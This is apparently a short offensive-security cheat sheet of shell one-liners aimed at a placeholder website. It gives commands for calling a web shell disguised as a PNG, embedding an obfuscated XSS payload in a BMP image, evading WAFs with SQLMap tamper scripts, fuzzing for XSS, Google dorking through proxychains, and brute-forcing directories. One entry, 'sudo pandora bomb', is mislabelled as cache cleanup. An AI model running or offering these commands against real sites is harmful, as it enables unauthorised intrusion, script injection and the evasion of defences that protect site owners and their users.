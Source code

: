 ```shell
curl -X POST https://website.com/assets/somefolder/cli.PNG -d "_=command"
```

### Inject JS payload inside image

```shell
python BMPinjector.py -i image.bmp "<scRiPt y='><'>/*<sCRipt* */prompt()</script"
```

### Get all parameters in a domain

```shell
python3 ~/ParamSpider/paramspider.py --domain https://www.website.com/ -o ~/WorkingDirectory/website_directory/pspider
```

### SQLMap tampers

```shell
--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

### Basic XSS url fuzzing

```shell
python3 ~/XSStrike/xsstrike.py -u https://website.com/param=FUZZ --fuzzer
```

### Clean memory items and cache on run

```shell
sudo pandora bomb
```

### Google dorking

```shell
godork -q "inurl:search.php=" -p 50 | tee results.txt
```

### Google dorking + proxychains

```shell
proxychains godork -q "inurl:search.php=" -p 50 | tee results.txt
```

### Directory bruteforcing

```shell
gobuster dir -url https://website.com/ | anew dirs && dirb https://website.com | anew dirs
```
